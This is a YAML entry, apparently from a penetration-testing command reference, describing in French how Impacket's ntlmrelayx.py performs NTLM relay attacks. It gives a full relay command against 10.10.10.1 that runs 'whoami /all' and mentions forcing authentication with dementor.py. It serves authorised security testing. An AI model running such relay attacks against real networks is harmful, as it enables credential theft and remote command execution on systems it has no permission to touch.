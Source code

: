 ```yaml
---
description: |
  Le fichier ntlmrelayx.py d'Impacket effectue des attaques de relais NTLM, en créant un serveur SMB et HTTP et en relayant les informations d'identification vers différents protocoles (SMB, HTTP, LDAP, etc.).

  La commande ci-dessous crée un serveur relais SMB qui cible l'IP 10.10.10.1, ce qui signifie que toutes les informations d'identification reçues par le serveur SMB sont relayées vers cette IP pour tenter de s'authentifier et d'exécuter 'whoami /all'. Pour que le serveur SMB reçoive les informations d'identification à relayer, dementor.py peut être utilisé pour déclencher une authentification forcée de l'IP qu'il cible vers un serveur SMB contrôlé par l'attaquant.

  Command Reference:

  	Target IP: 10.10.10.1

command: |
  python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
items:
  - No_Creds
services:
  - NTLM
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
  - https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack
---
```


